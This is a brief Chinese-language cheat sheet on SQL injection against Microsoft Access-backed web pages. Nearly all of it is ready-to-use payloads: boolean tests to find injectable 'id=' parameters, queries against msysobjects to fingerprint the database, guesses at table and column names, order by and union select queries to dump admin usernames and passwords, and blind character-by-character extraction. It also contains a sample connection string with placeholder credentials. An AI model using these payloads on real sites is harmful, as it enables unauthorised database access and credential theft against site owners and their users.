# access-注入
## access数据库的后缀名
`.mdb`
## access配置文件
`Driver={"microsoft access driver(*.mdb); dbq=*.mdb;uid=admin;pwd=pass;"}` \
`dim conn` \
`set conn = server.createobject("adodb.connection")` \
`conn.open "provider=Microsoft.ACE.OLEDB.12.0;" & "datasource = " & server.mappath("bbs.mdb")`
## 判断注入点
先寻找以 `id=1` 结尾的 \
`and 1=1` 正常 \
`and 1=2` 也可 `and 1=123` 结果是报错 \
`or 1=1` 报错 \
`or 1=2` 正常 
## 判断数据库类型
`and exists (select * from msysobjects)>0` access数据库 \
`and exists (select * from sysobjects)>0`  sqlserver和mysql数据库 
## 爆表
`and exists (select * from admin)` 看报错内容，是否有找到admin这个表 \
`and exists (select * from pass)`
## 爆列名
`and exists (select user from admin)` 返回正常，则存在user这个列名 \
`and exists (select passwd from admin)`
## 判断长度
`order by 10` 符合则正常，慢慢测试 
## 爆能显示的位置
`and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin` 联合查询
## 若账号列名和密码列名都有，就直接爆出
`and 1=2 union select 1,2,admin,4,5,6,passwd,8,9,10 from admin`  直接爆出
## 番外，测账号密码长度
`and (select len(admin) from admin)>5` 看返回正不正常判断 \
`and (select len(passwd) from admin)>5` 
## 番外，老式爆出
`and (select top 1 asc(mid(admin,1,1))from admin)>100` 返回正常则符合，然后慢慢测试是那个ascii码，再对应ascii表,这是第一个账号的第一个字符 \
`and (select top 1 asc(mid(admin,2,1))from admin)>97` 这是第二个字符，以此类推
